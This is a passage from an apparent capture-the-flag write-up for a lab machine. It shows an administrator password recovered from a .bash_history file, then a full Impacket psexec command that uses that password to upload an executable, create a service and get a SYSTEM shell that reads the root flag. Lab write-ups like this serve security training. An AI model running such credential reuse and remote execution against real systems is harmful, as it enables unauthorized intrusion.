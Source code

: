 ```
> .bash_history 
less .bash_history
```

We can then psexec as administrator and get the root flag:
```
root@darkstar:~# /usr/share/doc/python-impacket/examples/psexec.py 'administrator:u6!4ZwgwOM#^OBf#Nwnh'@10.10.10.97 cmd.exe
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

[*] Requesting shares on 10.10.10.97.....
[*] Found writable share ADMIN$
[*] Uploading file DmaHNXRy.exe
[*] Opening SVCManager on 10.10.10.97.....
[*] Creating service twnE on 10.10.10.97.....
[*] Starting service twnE.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>type c:\users\administrator\desktop\root.txt
7250cd<redacted>
```
